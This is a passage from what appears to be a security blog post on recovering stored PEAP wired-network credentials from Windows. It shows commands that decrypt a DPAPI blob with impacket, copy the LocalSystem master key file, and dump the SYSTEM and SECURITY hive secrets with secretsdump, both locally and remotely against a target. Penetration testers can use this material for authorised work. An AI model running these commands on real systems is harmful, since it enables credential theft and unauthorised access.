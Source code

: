 Assuming we have a file named `wired.bin` containing the DPAPI blob, we can then feed it into the `dpapi.py` script to get the ID of the master key.

```bash
impacket-dpapi unprotect -file "wired.bin"
```

![Master key ID obtained using "dpapi.py"](/assets/posts/2024-02-25-peap-credentials-wired-connections/18_dpapi-master-key-id.png)
_Master key ID obtained using "dpapi.py"_

With this information, we know which master key file we need to retrieve from the target machine.

> Here, I create a temporary copy of the file and use the built-in tool `attrib.exe` to remove the "hidden" file attribute, but this step is not strictly necessary.
{: .prompt-info }

```powershell
cp "C:\windows\System32\Microsoft\Protect\S-1-5-18\User\48C77EF6-4AA9-4DA5-B850-B545E4B86DE6" "c:\temp"
attrib.exe /s /h /r /d "C:\temp\48C77EF6-4AA9-4DA5-B850-B545E4B86DE6"
```

The master key is protected with the DPAPI user key of the `LocalSystem` account. If you have a copy of the `SYSTEM` and `SECURITY` hives, you can extract it as follows. Otherwise, you can use `secretsdump.py` to dump it remotely as well.

```bash
# Locally
impacket-secretsdump -system "system.bin" -security "security.bin" LOCAL
# Remotely
impacket-secretsdump 'USER:PASS@TARGET'
```

![Extracting the DPAPI user key of the "LocalSystem" account](/assets/posts/2024-02-25-peap-credentials-wired-connections/19_secretsdump-dpapi-userkey.png)
_Decrypting the DPAPI user key of the "LocalSystem" account_
